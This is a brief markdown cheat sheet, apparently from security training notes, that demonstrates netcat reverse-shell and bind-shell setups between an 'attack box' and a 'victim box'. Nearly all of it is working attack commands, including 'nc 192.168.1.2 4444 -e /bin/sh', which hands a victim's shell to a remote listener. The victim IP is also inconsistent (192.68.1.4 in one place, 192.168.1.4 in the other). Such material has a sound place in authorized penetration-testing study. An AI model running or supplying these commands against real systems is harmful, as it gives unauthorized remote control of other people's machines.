 

### Netcat Reverse Shell

Target/Victim connects to Attacker/Hacker machine.

Attack Box - 192.168.1.2
```sh 
$ nc -nlvp 4444
```

Victim Box - 192.68.1.4
```sh
$ nc 192.168.1.2 4444 -e /bin/sh
```


### Netcat Bind Shell

Attacker/Hacker connects to Target/Victim machine.

Attack Box - 192.168.1.2
```sh
$ nc 192.168.1.4 4444 
```

Victim Box - 192.68.1.4
```sh 
$ nc -nlvp 4444 -e /bin/sh
```
